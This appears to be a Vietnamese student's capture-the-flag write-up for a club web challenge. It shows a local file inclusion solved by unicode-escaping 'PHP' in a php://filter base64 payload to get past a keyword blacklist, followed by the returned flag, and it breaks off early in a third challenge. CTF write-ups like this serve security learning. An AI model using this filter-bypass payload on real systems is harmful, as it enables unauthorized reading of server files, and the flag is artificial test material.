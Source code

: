 ## SOLVE

### WEB 1:

Đọc qua src code , có thể thấy web nhận POST request và có thể khai thác LFI.

> Khi gửi request , server trả về
>
> ![img](/imgs/response.png)


> `{"content":"Invalid content"}`
>
> do trong flag có "EHC" , đã blacklist.

Sau khi tra google thì e biết có 1 phương pháp encode base64 bằng php

> Gửi lại request cho server.
>
> ![img](/imgs/invalidreq.png)


> server vẫn trả về `{"content":"Invalid content"}` do trong request có chứa cụm "PHP", đã blacklist .

Sau 1 hồi tra google thì e lạI biết được json có escape char:
`\u+4-digits-hex`
--&gt; có payload

```json
{
    "page":"\u0050\u0048\u0050://filter/convert.base64-encode/resource=/flag"
}
```

> Gửi lại cho server , ta được flag :
>
> ![img](/imgs/flag.png)

> `{"content":"RUhDe3czbGMwbTNfdzNiX3c0cnJqMHJzfQo="}`
> Decode base64 , có
>
> ![img](/imgs/flagdecoded.png)

> FLAG: `EHC{w3lc0m3_w3b_w4rrj0rs}`

### WEB 2:

### WEB 3:( cách làm của em không hay lắm nma kết quả đúng:)))) )

Đầu tiên , em thử vào từng path của site , thấy:

> `https://web3.ehc-fptu.club/1 --> https://web3.ehc-fptu.club/api/viewflag`
> Điều tương tự